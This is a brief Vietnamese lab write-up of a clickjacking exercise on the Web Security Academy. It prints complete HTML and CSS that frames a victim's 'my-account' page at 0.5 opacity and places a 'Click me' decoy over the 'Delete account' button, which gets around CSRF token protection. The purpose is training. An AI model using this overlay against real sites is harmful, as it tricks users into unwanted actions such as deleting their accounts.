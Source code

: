 Ta thấy có chức năng `Delete account` để xóa tài khoản, được bảo vệ bằng `CSRF token` do đó ta không thể tạo `form` để lừa người dùng được mà lúc này ta sẽ nhúng 1 `iframe` hiển thị đằng sau 1 nút mà người dùng sẽ click vào.

![Alt text](../image/lab1/02.png)

Thực hiện thêm `HTML` và lưu trữ trên `Exploit-server`

```
<style>
    iframe {
        position: relative;
        width: 800px;
        height: 600px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 496px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ab000fb03f531eb805abd7900e200f2.web-security-academy.net/my-account"></iframe>
```

`View exploit` xem kết quả, ta thấy `Click` đã nằm hoàn hảo trên nút `Delete account`
